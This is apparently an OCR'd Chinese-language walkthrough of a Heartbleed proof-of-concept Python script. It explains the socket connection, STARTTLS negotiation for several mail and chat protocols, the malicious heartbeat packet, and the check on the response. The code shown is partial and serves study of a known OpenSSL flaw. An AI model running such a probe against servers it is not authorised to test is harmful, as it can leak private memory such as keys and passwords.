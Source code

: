 POC使用方式：`Python poc.py test_ip test_port`

1. 首先建立socket连接：

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	    print 'Connecting...'
	
	    s.connect((args[0], opts.port))
2. 根据连接判断协议类型，因为使用OpenSSL协议的不仅仅有https，同时还包括smtp，pop3，imap等协议

		 if opts.starttls != '':
	      print 'Sending STARTTLS Protocol Command...'
	
	    if opts.starttls == 'smtp':
	      s.recv(BUFSIZ)
	      s.send("EHLO openssl.client.net\n")
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'pop3':
	      s.recv(BUFSIZ)
	      s.send("STLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'imap':
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'ftp':
	      s.recv(BUFSIZ)
	      s.send("AUTH TLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'xmpp': # TODO: This needs SASL
	      s.send("<stream:stream xmlns:stream='http://etherx.jabber.org/streams' xmlns='jabber:client' to='%s' version='1.0'\n")
	      s.recv(BUFSIZ)

3. 建立握手连接：

		s.send(hello)

4. 握手过程完成后发送构造攻击payload，恶意心跳包：

		sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s, hb)

5. 获取心跳响应，对响应数据进行判断，是否存在心脏出血漏洞，这里的判断逻辑是：
	1. 通过函数`typ, ver, pay = recvmsg(s)`获取响应包的type：类型；version：版本；payload：填充数据
	1. 判断数据包的type类型字段是否为十六进制**\x18**转换为10进制是否为**24**，因为**type类型为\x18为心跳扩展的数据包**
	2. 确定是否为心跳包之后判断后续payload的长度，如果payload的长度大于3的话即为存在心脏出血漏洞，反之则不存在。


			def hit_hb(s, hb):
			    s.send(hb)
			    while True:
			        typ, ver, pay = recvmsg(s)
			        if typ is None:
			            print 'No heartbeat response received, server likely not vulnerable'
			            return False
			